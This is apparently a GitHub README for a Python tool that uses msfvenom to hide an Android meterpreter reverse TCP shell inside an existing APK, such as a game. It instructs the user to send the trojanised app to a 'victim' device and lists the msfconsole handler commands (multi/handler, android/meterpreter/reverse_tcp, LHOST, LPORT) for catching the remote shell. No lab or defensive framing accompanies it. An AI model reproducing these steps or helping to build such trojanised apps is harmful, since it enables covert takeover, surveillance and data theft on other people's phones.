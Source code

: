 ## Android apk and payload combiner
# A small python script that uses msfvenom to hide a tcp reverse shell to an android device inside an APK file

Hide an msfconsole reverse tcp shell payload in an existing apk application, made by Stephanos Bekiaris    ver: July 2020
        
    
# Requirements:
  1. msfvenom: for generating the payload
  2. msfconsole (Metasploit): for starting the meterpreter session
  3. An apk file to place the payload in, e.g. an android game (search for Flappy Bird android apk)
  4. Make sure you have zipalign installed (apt install zipalign)
  
  
**Step 1: Run the script (preferably as root): sudo python3 android_payload_generator.py**

**Step 2: Once the payload is generated, send it to the victim android device to run it.**

**Step 3: Make sure you have initialized an msfconsole session using the following commands:**

	                  msfconsole
                      use exploit/multi/handler
	                  set payload android/meterpreter/reverse_tcp
	                  set LHOST {same ip as the one used for the script}
	                  set LPORT {same port as the one used for the script}
	                  exploit
